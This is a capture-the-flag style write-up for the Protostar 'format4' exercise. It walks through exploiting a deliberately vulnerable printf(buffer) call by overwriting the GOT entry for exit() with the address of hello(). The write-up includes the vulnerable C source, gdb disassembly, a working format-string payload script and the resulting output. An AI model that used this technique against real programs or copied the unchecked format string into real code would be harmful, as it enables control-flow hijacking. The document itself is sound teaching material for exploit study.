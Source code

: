 # FORMAT 4

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);                       // <-- Format String Vuln

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## OVERVIEW & IDEA

- We can easily see the format string vuln in the code, and the mission of us is redirect the program run into `hello()` function.

- The program use `exit(1);` after `printf(buffer);`, so we can't overwrite the return of `hello()`.

- My idea is overwrite address of `exit()` to `hello()`'s address in GOT, so, when the program run `exit()`, it redirects to `hello()` function instead of exit program, and in `hello()` function we does not have `exit()` function, so we aren't worry about infinity loop of calling `hello()` function. 

> If you wonder wtf GOT or shared library is, you can check out the ROP_Dynamic in b10s. 

## DETAIL


- First, I am going to find the GOT address of exit by check out the exit@plt.

```asm
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>   ; <-- exit@plt address
End of assembler dump.
```

- Checking out the instruction of exit@plt's address and we got the GOT's address of `exit().

```asm
(gdb) x/3i 0x80483ec
0x80483ec <exit@plt>:   jmp    DWORD PTR ds:0x8049724  ; <-- exit() GOT address
0x80483f2 <exit@plt+6>: push   0x30
0x80483f7 <exit@plt+11>:        jmp    0x804837c
```

- We also need the address of `hello()` function to overwrite in `exit()` GOT address. 

```asm
(gdb) disass hello
Dump of assembler code for function hello:
0x080484b4 <hello+0>:   push   ebp
0x080484b5 <hello+1>:   mov    ebp,esp
0x080484b7 <hello+3>:   sub    esp,0x18
0x080484ba <hello+6>:   mov    DWORD PTR [esp],0x80485f0
0x080484c1 <hello+13>:  call   0x80483dc <puts@plt>
0x080484c6 <hello+18>:  mov    DWORD PTR [esp],0x1
0x080484cd <hello+25>:  call   0x80483bc <_exit@plt>
End of assembler dump.
```

- We can see that the address of `hello()` and `exit()` GOT has the same 2 bytes at the left side. So we can only change the 2 remain bytes at the right side of `exit()` GOT address from `9724` to `84b4` to get the final address is `hello()` address.



## EXPLOIT

```python
# filename: exp.py

payload = "\x24\x97\x04\x08"
# Just use AAAA.%p.%p.%p ... to find the index, here I found the index is 4
payload += "%33968c%4$hn"   

print(payload)

# python exp.py | ./format4
```

## RESULT

```
root@protostar:/opt/protostar/bin# python exp.py | ./format4
$�

... a bunch of space :v ...

code execution redirected! you win
root@protostar:/opt/protostar/bin#
```
